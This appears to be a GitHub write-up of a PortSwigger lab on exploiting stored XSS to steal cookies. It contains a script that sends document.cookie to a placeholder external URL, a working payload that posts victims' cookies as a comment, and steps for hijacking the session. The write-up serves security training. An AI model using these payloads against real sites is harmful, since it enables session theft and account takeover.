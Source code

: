 Without Burp Collaborator, I can't execute the following solution:

```html
<script>
fetch('{some public url that received the request}', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

Also, as they pointed out in the note:

> To prevent the Academy platform being used to attack third parties,  
our firewall blocks interactions between the labs and arbitrary external systems.  
To solve the lab, you should use Burp Collaborator's default public server (burpcollaborator.net)."

I also can't use my own public server, or requestbin.com for example.

This is why I used the technique displayed in the lab "Exploiting XSS to perform CSRF".
If you're solving under the same conditions, go solve that lab first.

This is my solution for this lab:

```html
<script>
function reqListener () {
  const pageSource = this.responseText;
  const csrf = pageSource.match('name="csrf" value="(.*)"')[1]
  const postId = window.location.href.match('postId=(.*)')[1]

  const changeEmailRequest = new XMLHttpRequest();
  changeEmailRequest.open("POST", "/post/comment");
  changeEmailRequest.send(`csrf=${csrf}&postId=${postId}&comment=${document.cookie}&name=a&email=a@a.com&website=http://stam.com')`)
}

var req = new XMLHttpRequest();
req.addEventListener("load", reqListener);
req.open("GET", "/my-account");
req.send();
</script>
```

The bot's comment should look like:

`secret=...; session=...`

Copy the session value, intercept the request to `/my-account` and replace the cookie. This will solve the lab.